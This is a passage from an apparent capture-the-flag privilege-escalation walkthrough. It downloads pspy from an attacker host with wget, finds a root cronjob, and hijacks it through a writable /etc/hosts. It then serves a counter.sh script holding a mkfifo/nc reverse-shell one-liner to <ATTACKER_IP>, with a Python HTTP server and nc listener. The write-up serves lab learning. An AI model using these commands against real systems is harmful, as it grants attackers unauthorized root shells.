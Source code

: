 On the victim machine, we'll change to the `/tmp` directory then download it using [wget](https://linux.die.net/man/1/wget) and give it executable permissions using [chmod](https://linux.die.net/man/1/chmod) then run the binary:

```
cd /tmp
wget <ATTACKER_IP>:8888/pspy32
chmod +x pspy32
./pspy32
```

After letting pspy run for a couple of minutes, we will find a scheduled task (cronjob) running every minute as `root` (`UUID=0`):

![c5dfaa1c3f1b3d7ed027c7c96b8340de.png](/resources/1157d04a32bd42bab6f1b480e0391aef.png)

Press `CTRL + C` to exit pspy.

If we check the permissions for the `/etc/hosts` file using `ls -la` we will find that the user `mario` has write permissions:

```sh
ls -la /etc/hosts
```

![fccf338b3e8fe9aec7f787b3335bb8c1.png](/resources/c460e683324f4a78980c7f5b51670e8c.png)

If we edit the `hosts` file to an IP to a machine that we control, we can cause the scheduled taks to download a malicious script on our server instead.

Then create the same directory structure as in the scheduled task, `/app/castle/application/`:

```sh
mkdir app
cd app
mkdir castle
cd castle
mkdir application
```

We can create a reverse shell bash script named `counter.sh` with the following code:

```sh
#!/usr/bin/env bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4445 >/tmp/f
```

Move up two directories then host the script using Python:

```sh
cd ../../
python3 -m http.server 85
```

Next, start a listener using `nc`:

```sh
nc -nvlp 4445
```
